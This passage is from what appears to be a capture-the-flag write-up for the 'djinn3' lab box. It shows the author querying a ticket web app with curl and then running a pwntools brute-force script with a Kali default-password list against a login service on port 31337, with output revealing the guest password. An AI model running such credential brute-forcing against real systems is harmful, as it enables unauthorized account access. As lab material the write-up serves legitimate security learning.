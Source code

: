 ```bash

Status: open
ID: 7723
*** Description: ***

As we know umang has resigned, so until we find the replacement Jack will be
handling the lead on risk limit UI. RLUI team has to keep Jack about all the
development that has been happening.
Sorry for the bright page, we are working on some beautiful CSS


$ curl -s http://192.168.122.102:5000/?id=8345 | html2text
*** Error while updating postgres queries ***

Status: In progress
ID: 8345
*** Description: ***

There are some issues with the postgres queries and I think that this needs to
be addressed ASAP
Sorry for the bright page, we are working on some beautiful CSS
```


I wrote a program to brute force passwords for different users. The password list on Kali can be found here: `/usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt`

```bash
$ ./bruteforce.py guest default-passwords.txt
[+] Opening connection to 192.168.122.102 on port 31337: Done
/home/lemmy/hacking/boxes/pgp/djinn3/./bruteforce.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("username>", timeout=10)
/home/lemmy/hacking/boxes/pgp/djinn3/./bruteforce.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(user)
/home/lemmy/hacking/boxes/pgp/djinn3/./bruteforce.py:18: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("password>", timeout=10)
/home/lemmy/hacking/boxes/pgp/djinn3/./bruteforce.py:19: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(password)
[*] Closed connection to 192.168.122.102 port 31337
[+] Opening connection to 192.168.122.102 on port 31337: Done
[*] Closed connection to 192.168.122.102 port 31337
[+] Opening connection to 192.168.122.102 on port 31337: Done
[*] Closed connection to 192.168.122.102 port 31337
<SNIP>
password for guest is guest
[*] Closed connection to 192.168.122.102 port 31337
```
![1](screenshots/1.png)
